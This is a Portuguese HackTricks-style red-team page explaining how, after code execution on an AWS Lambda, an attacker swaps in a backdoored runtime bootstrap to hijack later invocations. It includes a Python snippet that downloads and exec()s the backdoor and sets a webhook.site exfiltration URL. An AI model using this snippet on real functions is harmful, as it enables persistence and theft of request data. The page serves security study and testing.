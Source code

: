 # AWS - Roubar Requisições Lambda

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

## Fluxo Lambda

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** é um processo fora do contêiner que **envia** **invocações** para o processo **init**.
2. O processo init escuta na porta **9001** expondo alguns endpoints interessantes:
* **`/2018-06-01/runtime/invocation/next`** – obter o próximo evento de invocação
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – retornar a resposta do manipulador para a invocação
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – retornar um erro de execução
3. **bootstrap.py** tem um loop obtendo invocações do processo init e chama o código do usuário para manipulá-las (**`/next`**).
4. Finalmente, **bootstrap.py** envia para init a **resposta**

Note que o bootstrap carrega o código do usuário como um módulo, então qualquer execução de código realizada pelo código do usuário está realmente acontecendo neste processo.

## Roubo de Requisições Lambda

O objetivo deste ataque é fazer com que o código do usuário execute um processo malicioso **`bootstrap.py`** dentro do processo **`bootstrap.py`** que manipula a requisição vulnerável. Dessa forma, o processo **malicioso bootstrap** começará a **comunicar-se com o processo init** para manipular as requisições enquanto o bootstrap **legítimo** está **preso** executando o malicioso, de modo que não pedirá requisições ao processo init.

Esta é uma tarefa simples de alcançar, pois o código do usuário está sendo executado pelo legítimo processo **`bootstrap.py`**. Assim, o atacante poderia:

* **Enviar um resultado falso da invocação atual para o processo init**, para que o init pense que o processo bootstrap está aguardando mais invocações.
* Uma requisição deve ser enviada para **`/${invoke-id}/response`**
* O invoke-id pode ser obtido da pilha do legítimo processo **`bootstrap.py`** usando o módulo python [**inspect**](https://docs.python.org/3/library/inspect.html) (como [proposto aqui](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch_runtime.py)) ou apenas solicitando-o novamente para **`/2018-06-01/runtime/invocation/next`** (como [proposto aqui](https://github.com/Djkusik/serverless_persistency_poc/blob/master/gcp/exploit_files/switcher.py)).
* Executar um **`boostrap.py`** malicioso que irá manipular as próximas invocações
* Para fins de furtividade, é possível enviar os parâmetros das invocações lambda para um C2 controlado pelo atacante e então manipular as requisições como de costume.
* Para este ataque, é suficiente obter o código original de **`bootstrap.py`** do sistema ou [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), adicionar o código malicioso e executá-lo a partir da invocação lambda atual.

### Passos do Ataque

1. Encontrar uma vulnerabilidade **RCE**.
2. Gerar um **bootstrap** **malicioso** (por exemplo, [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py))
3. **Executar** o bootstrap malicioso.

Você pode facilmente realizar essas ações executando:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Para mais informações, consulte [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda_bootstrap_switcher)

## Referências

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
